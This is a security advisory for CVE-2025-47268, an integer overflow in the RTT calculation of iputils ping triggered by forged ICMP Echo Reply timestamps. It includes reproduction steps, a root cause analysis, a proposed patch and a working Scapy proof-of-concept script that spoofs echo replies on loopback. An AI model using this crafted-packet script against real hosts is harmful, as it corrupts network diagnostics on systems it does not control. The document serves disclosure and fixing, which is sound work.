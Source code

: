 
# ping\_rtt overflow

## Summary

A crafted ICMP Echo Reply can trigger a signed 64-bit integer overflow in iputils `ping` RTT calculation. By forging the timestamp field in the ICMP payload to be sufficiently large, the multiplication of seconds by 1,000,000 exceeds the signed `long` range, causing undefined behavior. Under AddressSanitizer (ASan), this is detected as a runtime error. In non ASan builds it wraps silently and clamps to zero, resulting in repeated zero-RTT readings and incorrect statistics.

## Affected Versions

* iputils `ping` from the current `master` branch: [https://github.com/iputils/iputils/tree/master](https://github.com/iputils/iputils/tree/master)
* Ubuntu package version: `iputils-ping 3:20240117-1build1`
## CVE ID
CVE-2025-47268 (Assigned 5/5/2025)

## Environment

* Distribution: Ubuntu 24.04.1 LTS (Noble Numbat)
* Kernel: 5.15.167.4-microsoft-standard-WSL2
* Architecture: x86\_64

## Steps to Reproduce

1. **Export ASan/UBSan build flags**

   ```sh
   export CFLAGS="-std=c99 -O1 -g -fsanitize=address,undefined -fno-omit-frame-pointer"
   export CXXFLAGS="$CFLAGS"
   export LDFLAGS="-fsanitize=address,undefined -fno-omit-frame-pointer"
   ```

2. **Clone and build iputils with sanitizers**

   ```sh
   git clone https://github.com/iputils/iputils.git
   cd iputils
   mkdir builddir-asan && cd builddir-asan
   meson .. -Db_sanitize=address,undefined
   ninja
   ```
3. In one terminal, start the PoC listener script (`poc.py`):

   ```sh
   sudo ./poc.py
   ```
4. In another terminal, run ping:

   ```sh
   sudo ./ping/ping -R -s 64 127.0.0.1
   ```
5. Observe signed-integer-overflow errors from ASan:

   ```
   ../ping_common.c:757: runtime error: signed integer overflow
   ```



https://github.com/user-attachments/assets/b218971e-fbdc-478e-a0ae-ef77540332be


## Root Cause Analysis

In `ping_common.c`, the code does:

```c
/* normalize recv_time - send_time */
tvsub(&tv, &tmp_tv);
/* compute microseconds */
triptime = tv->tv_sec * 1000000 + tv->tv_usec
```

Because `tv->tv_sec` is a signed 64-bit `long` and attacker controls it via the ICMP payload, multiplying by 1,000,000 can exceed `LONG_MAX`, causing signed overflow (CWE-190). The code does not check for overflow before or after the multiplication.

## Proposed Fix

Modify the RTT computation to use a 128-bit intermediate and clamp:


```diff
--- ping_common.c
+++ ping_common.c
@@ -754,7 +754,15 @@ gather_statistics(struct ping_rts *rts, uint8_t *icmph, int icmplen,
        tvsub(tv, &tmp_tv);
-       triptime = tv->tv_sec * 1000000 + tv->tv_usec;
+       {
+           __int128 delta = (__int128)tv->tv_sec * 1000000 + tv->tv_usec;
+           if (delta < 0) {
+               triptime = 0;
+           } else if (delta > LLONG_MAX) {
+               triptime = (long)LLONG_MAX;
+           } else {
+               triptime = (long)delta;
+           }
+       }
```

## PoC Script (`poc.py`)

```python
#!/usr/bin/env python3
from scapy.all import IP, ICMP, Raw, send, sniff, bind_layers
import time, struct, sys, os

LISTEN_INTERFACE = "lo"
TARGET_IP = "127.0.0.1"
FUTURE_OFFSET_SEC = 1.0

bind_layers(ICMP, Raw)

def process_packet(pkt):
    if not (pkt.haslayer(IP) and pkt.haslayer(ICMP)):
        return
    ip = pkt[IP]
    ic = pkt[ICMP]
    if ic.type != 8:
        return

    fut = time.time() + FUTURE_OFFSET_SEC
    sec = int(fut)
    usec = int((fut - sec) * 1_000_000)

    data = struct.pack('=ll', sec, usec)
    data += b'Z'*8   # padding to force full timeval read and overflow

    reply = (
        IP(src=ip.dst, dst=ip.src) /
        ICMP(type=0, code=0, id=ic.id, seq=ic.seq) /
        Raw(load=data)
    )

    print(f"sending id={ic.id} seq={ic.seq} sec={sec} usec={usec} len={len(data)}")
    send(reply, iface=LISTEN_INTERFACE, verbose=False)


def main():
    if os.geteuid() != 0:
        sys.exit("need root")
    filt = f"icmp and icmp[icmptype] = icmp-echo and host {TARGET_IP}"
    print(f"listening on {LISTEN_INTERFACE} for {TARGET_IP}")
    sniff(iface=LISTEN_INTERFACE, filter=filt, prn=process_packet, store=0)

if __name__=='__main__':
    main()
```

----

**Reported by:** Mohamed Maatallah  
Email: [hotelsmaatallahrecemail@gmail.com](mailto:hotelsmaatallahrecemail@gmail.com)

---
